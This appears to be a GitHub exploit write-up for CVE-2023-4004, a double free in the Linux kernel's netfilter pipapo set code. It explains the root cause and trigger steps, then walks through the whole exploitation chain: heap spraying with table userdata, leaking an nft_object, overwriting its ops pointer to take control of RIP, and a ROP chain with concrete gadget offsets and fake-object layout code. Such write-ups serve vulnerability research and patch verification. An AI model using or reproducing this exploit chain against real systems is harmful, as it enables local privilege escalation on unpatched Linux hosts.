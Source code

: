 # Exploit detail about CVE-2023-4004
If you want to get some base information about CVE-2023-4004, please read [vulnerability.md](./vulnerability.md) first.

## Cause anaylysis

As the code shows in function `nft_pipapo_remove` in /net/netfilter/nft_set_pipapo.c, when a pipapo set wants to remove a element, it find the element by using NFT_SET_EXT_KEY and NFT_SET_EXT_KEY_END:

```
    ...
        match_start = data;
		match_end = (const u8 *)nft_set_ext_key_end(&e->ext)->data;

		start = first_rule;
		rules_fx = rules_f0;

		nft_pipapo_for_each_field(f, i, m) {
			if (!pipapo_match_field(f, start, rules_fx,
						match_start, match_end))
				break;
    ...
```

But a NFT_SET_EXT_KEY_END is not necessary. Function `nft_pipapo_insert` shows a correct way to handle it:

```
    ...
	if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY_END))
		end = (const u8 *)nft_set_ext_key_end(ext)->data;
	else
		end = start;
    ...
```


## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set
- Insert a element into the set without NFT_SET_EXT_KEY_END
- Flush the set without NFT_SET_EXT_KEY_END(After this, the element will be freed but won't be removed from the set)
- Flush the set without NFT_SET_EXT_KEY_END again(After this, the element will be freed again)

## Exploit it
CVE-2023-4004 is very easy to exploit because you can free the elem many times. The size of the elem is not stable which means there's many ways to exploit it:
```
void *nft_set_elem_init(const struct nft_set *set,
			const struct nft_set_ext_tmpl *tmpl,
			const u32 *key, const u32 *key_end,
			const u32 *data, u64 timeout, u64 expiration, gfp_t gfp)
{
	struct nft_set_ext *ext;
	void *elem;

	elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);
	if (elem == NULL)
		return NULL;
    ...
```
The tmpl->len is related to your input like NFTA_SET_ELEM_USERDATA which means you can control the size of the elem. So you just need to find a structure to leak information and control RIP. I choose to use some structures in nftables: `nft_tables` and `nft_object`
```
struct nft_table {
	struct list_head		list;
	struct rhltable			chains_ht;
	struct list_head		chains;
	struct list_head		sets;
	struct list_head		objects;
	struct list_head		flowtables;
	u64				hgenerator;
	u64				handle;
	u32				use;
	u16				family:6,
					flags:8,
					genmask:2;
	u32				nlpid;
	char				*name;
	u16				udlen;
	u8				*udata;
};

struct nft_object {
	struct list_head		list;
	struct rhlist_head		rhlhead;
	struct nft_object_hash_key	key;
	u32				genmask:2,
					use:30;
	u64				handle;
	u16				udlen;
	u8				*udata;
	/* runtime data below here */
	const struct nft_object_ops	*ops ____cacheline_aligned;
	unsigned char			data[]
		__attribute__((aligned(__alignof__(u64))));
};
```
It's easy to spray heap by creating many nft_table with NFTA_TABLE_USERDATA:
```
    ...
	if (nla[NFTA_TABLE_USERDATA]) {
		table->udata = nla_memdup(nla[NFTA_TABLE_USERDATA], GFP_KERNEL);
		if (table->udata == NULL)
			goto err_table_udata;

		table->udlen = nla_len(nla[NFTA_TABLE_USERDATA]);
	}
    ...
```
And nft_object has a pointer of a function list(`const struct nft_object_ops	*ops`), which will be useful for leaking information and control RIP. 

The size of the object is different when you use different type of object. I choose to use the `NFT_OBJECT_CT_EXPECT` object. The heap used by this object belongs to kmalloc-192.
### Leak info

I leak some useful info by the following steps.

- Create pipapo `set A`
- Insert `element B` into `set A` without NFT_SET_EXT_KEY_END(make sure sizeof(`element B`)>192 && sizeof(`element B`)<256)
- Flush `set A`, `element B` will be freed but won't be removed
- Create many tables with NFTA_TABLE_USERDATA to get the heap of `element B` back, so the length of `NFTA_TABLE_USERDATA` should equal to sizeof(`element B`) 
- Flush `set A` again, `element B` will be freed again but won't be removed
- Create many objects, the size of the objects should equal to sizeof(`element B`) 
- Get all the tables we spray. The `NFTA_TABLE_USERDATA` of one of them should be a strcture of a object. 

### Control RIP
I control the RIP by the following steps which is very similar I used for leaking useful information:

- Create pipapo `set A`
- Insert `element B` into `set A` without NFT_SET_EXT_KEY_END((make sure sizeof(`element B`)>192 && sizeof(`element B`)<256))
- Flush `set A`, `element B` will be freed but won't be removed
- Create many tables with NFTA_TABLE_USERDATA to get the heap of `element B` back, the length of `NFTA_TABLE_USERDATA` should equal to sizeof(`element B`)
- Flush `set A` again, `element B` will be freed again but won't be removed
- Create many objects with `NFTA_OBJ_USERDATA`. The size of the objects should equal to sizeof(`element B`) . `NFTA_OBJ_USERDATA` of the object will be used for ROP.
- Get all the tables we spray. Find the target tables. The `NFTA_TABLE_USERDATA` of one of them should be a strcture of a object.
- Delete the target table to free the heap of the object.
- Spray many tables with NFTA_TABLE_USERDATA to get the heap of the object back. After this, we can fill fake data of the object. I overwrite the ops of the object structure to control RIP.
- Get target object, and we will finally jump to ROP.
  ```
  static int nft_object_dump(struct sk_buff *skb, unsigned int attr,
			   struct nft_object *obj, bool reset){
	struct nlattr *nest;

	nest = nla_nest_start_noflag(skb, attr);
	if (!nest)
		goto nla_put_failure;
	if (obj->ops->dump(skb, obj, reset) < 0)//After overwrite the ops, we can control RIP here.
		goto nla_put_failure;
	nla_nest_end(skb, nest);
	return 0;
	...
  ```
### ROP detail
Once we finish the step 7 of `Control RIP`, we can get the heap address of the `NFTA_OBJ_USERDATA` of target object, which we spray at step 6.
And I fill the fake data of the object by this:
```
	*(uint64_t *)&ops[0x20] = kernel_off + 0xffffffff8198954b;//push rsi ; jmp qword ptr [rsi + 0x39]   ops->dump
	...
    uint64_t rop_target_addr = *(uint64_t *)(&leak_obj[0x48]);//The heap address of NFTA_OBJ_USERDATA
    printf("rop : %lx\n", rop_target_addr);
	//leak_obj is a fake obj struct
	// stack migration first time 
    *(uint64_t *)(&leak_obj[0x39]) = kernel_off + 0xffffffff81027924;//pop rsp ; ret 
	// stack migration second time 
    *(uint64_t *)(&leak_obj[0]) = kernel_off + 0xffffffff81027924;//pop rsp ; ret
    *(uint64_t *)(&leak_obj[8]) = rop_target_addr + 0x60;//This is the final ROP address.
    *(uint64_t *)(&leak_obj[0x80]) = rop_target_addr;//the filed at 0x80 offset is a nft_object_ops	struct pointer which set to the heap addr of NFTA_OBJ_USERDATA.
	...
```

And the step of ROP looks like this:
```

 obj->ops->dump(skb, obj, reset)  ->  
 push rsi ; jmp qword ptr [rsi + 0x39] ->  //RSI will be the pointer of the object
 pop rsp ; ret -> //stack migration, the rsp will be the pointer of the object 
 pop rsp ; ret -> //stack migration again, the rsp will be the pointer of the NFTA_OBJ_USERDATA 
 now we can do normal ROP here
```

### Other additional infomation
- `CAP_NET_ADMIN` capability is required. So you need to create a new namespace.